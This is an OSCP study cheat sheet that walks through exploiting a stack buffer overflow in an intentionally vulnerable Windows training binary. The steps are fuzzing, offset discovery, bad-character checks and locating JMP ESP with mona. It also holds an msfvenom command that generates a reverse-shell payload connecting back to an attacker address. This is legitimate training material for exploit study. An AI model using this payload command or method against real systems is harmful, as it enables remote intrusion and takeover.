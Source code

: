 # OSCP Buffer Overflow Cheat Sheet

The exploitation of the stack buffer overflow in the OSCP exam is based on Windows 32-bit systems.

In this cheat sheet we will use dostackbufferoverflowgod as a vulnerable application in our exploration process (more info here: https://github.com/justinsteven/dostackbufferoverflowgood).

The binary can be downloaded here: https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood.exe

Below are the download links for all the tools needed for the study:

- Windows 7 Evaluation: https://gist.github.com/anonymous/c644cac9d77e2793742c13cf10d26cb8
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Mona.py: https://github.com/corelan/mona

All installation processes are described in the links above.


## Fuzzing

We will run the `connect.py` script to verify the application's response.

After this step, we will run the `fuzzing.py` script to identify the point that the application will crack. But before that, on your Windows, attach the application to the Immunity Debugger.

## Offset

After finding the crash point of the application, we will identify the offset to the EIP address. For this we will generate a string of strings with the pattern_create, from the MSF suite

msf-pattern_create -l 1024

Copy the EIP address into the Immunity Debugger and use the pattern_offset to identify this address

msf-pattern_offset -q 39654138

Now we can run poc.py and verify that our EIP has been overwritten with the character "B" (42 in hexadecimal)


## Badchars

To identify badchars we will use mona with the option !mona bytearray.

Insert the mona output in the badchars.py script and run against the application to identify the badchars.


There are many ways to carry out the badchar identification process (even mona has modules for that), but the most accurate way is visually. Follow the ASCII string in the Immunity Debugger and see what points this string crashed or skipped over.


## JMP ESP

After knowing the badchars of the application, we will identify the JMP ESP that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack.

The OPCODE for JMP ESP is \xff\xe4 (in assembly). Using mona we will locate which register in the application that points to this OPCODE and so we can change the flow of the application to run our shellcode, rewriting the stack from its base (EBP).

Run !mona modules and identify the unprotected modules.

Run !mona find -s "\xff\xe4" to identify which of these pointers have the OPCODE for JMP ESP

Run !mona jmp -r esp -cpb "\x00\x0a" to identify which pointers do not have the badchars found.

By this point you may have already found the correct JMP ESP address. However, if you want to check, run !mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe directly on the identified vulnerable module.

At this point you will have the base address of the stack or return address (EBP). We need to convert this address to little-endian format to use it in our code. We need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion:

 0x080416BF to "\xBF\x16\x04\x08"
 
 
 
 ## Exploit time
 
 We can now generate our shellcode excluding the badchars found:
 
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
 
 The EXITFUNC=thread option prevents the shellcode from crashing the application when executing our shellcode.
 
 Now just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow

